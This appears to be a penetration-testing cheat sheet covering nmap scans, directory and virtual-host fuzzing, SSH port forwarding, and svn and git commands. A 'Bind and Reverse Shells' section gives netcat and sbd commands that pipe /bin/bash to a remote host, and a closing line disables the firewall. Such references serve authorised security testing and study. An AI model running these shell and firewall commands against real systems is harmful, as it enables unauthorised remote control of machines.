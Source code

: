## Nmap Scan

Launch normal scan

`nmap -sC -sV -Pn -oA nmap-out example.com`

Find nse scripts 

`ls /usr/share/nmap/scripts/|grep svn`

Get help for particular nse script

`nmap --script-help svn-brute.nse`

## SCP to copy files

Upload file/folder

`scp -r local.txt host:/path/to/dest`

Download file/folder

`scp -r host:/path/to/remote.txt .`

## Directory Brute Force

Dirsearch for brute forcing file system

`./dirsearch.py -r -e old,new,txt,asp,aspx,jsp,jspx,bak,gz,zip,tar,7z,php,htm,html,bat,sh,do -b --random-agents --plain-text-report=dirsearch.out -u url -w wordlist(optional)`

FFuf to fuzz content

`ffuf -w content_discovery_all.txt -u http://host/ -o dirfuzz.txt -of md -timeout 30 -ac -s -t 20 -se`


## Virtual Host Discovery

`ffuf -w /path/to/vhost/wordlist -u https://target -H "Host: FUZZ" -fs 4242`

## SSH Port Forwarding

__Local Forwarding__ - Binding to local machine port 8080 and forwarding to 10.10.10.203 on port 80 via vps (only localhost can connect)

`ssh -L 8080:10.10.10.203:80 vps_ip`

__Remote forwarding__ - Remote ssh server listens on remote port 8080 and forwards all the traffic to remote port 8080 via ssh client to destination host.(Opposite of Local Forwarding)

`ssh -R 8080:localhost:80 public.example.com`

__Dynamic Forwarding__ - Dynamic port forwarding allows you to create a socket on the local (ssh client) machine, which acts as a SOCKS proxy server. Running below command on vps will make it act as a socks proxy on port 8080.

`ssh -D vps_ip:8080 vps_ip`


## SVN commands

```
svn checkout svn://host
svn log
svn update -r r5
```

Dump repo content

`svnrdump dump svn://host`


## Github Commands

```
git log --oneline
git reset 9ef9173
git reset current~2 (using a relative value -2 before the "current" tag)
```

## Searching File System 

```
Find <location> -name <to find>
eg: find / -name ettercap
```

```
locate filename  --> to locate anything
updatebd --> to update local database
```

## Enumerate running services and ports

```
netstat -antp --> running services and ports
```

## Bind and Reverse Shells

* Netcat Shells

```
nc -nv 192.168.145.129 4444 -e /bin/bash 2> error_log 
nc -nlvp 4444 

ncat is similar to nc but also supports ssl for encryption

ncat -nlvp 4444 --ssl --allow <ip>
ncat -nv <ip_to_connect> 4444
```

* SBD shells

```
sbd -lp 4444 -k secret -e /bin/bash
sbd -k secret 127.0.0.1 4444
```

## Firewall Commands

Disable firewall

```
ufw disable
```